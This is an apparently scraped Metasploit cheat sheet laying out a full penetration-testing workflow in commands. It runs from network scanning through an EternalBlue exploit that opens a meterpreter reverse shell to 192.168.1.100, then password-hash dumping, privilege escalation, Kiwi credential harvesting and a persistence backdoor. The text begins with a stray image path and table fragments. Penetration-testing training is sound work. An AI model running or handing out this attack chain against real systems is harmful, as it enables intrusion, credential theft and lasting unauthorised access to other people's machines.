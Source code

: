 | **Documentation** | • Use `spool` to log console activity<br>• Take notes with `notes` command<br>• Save loot with `loot` command |

## Workflow Example

Below is a typical penetration testing workflow using Metasploit:

### Reconnaissance & Scanning
```ruby
# Start Metasploit with database
msfdb init
msfconsole

# Create a workspace for this engagement
workspace -a clientX

# Scan the network
db_nmap -sV -p- 192.168.1.0/24

# Review discovered hosts and services
hosts
services -p 445 --rhosts
```

### Exploitation
```ruby
# Target vulnerable service
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set LHOST 192.168.1.100
check                                # Always check first when possible
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

### Post-Exploitation
```ruby
# Initial reconnaissance
getuid
sysinfo
hashdump

# Elevate privileges if needed
getsystem
getuid

# Gather credentials
load kiwi
creds_all
run post/windows/gather/enum_applications

# Maintain access
run persistence -S -i 60 -p 443 -r 192.168.1.100
```
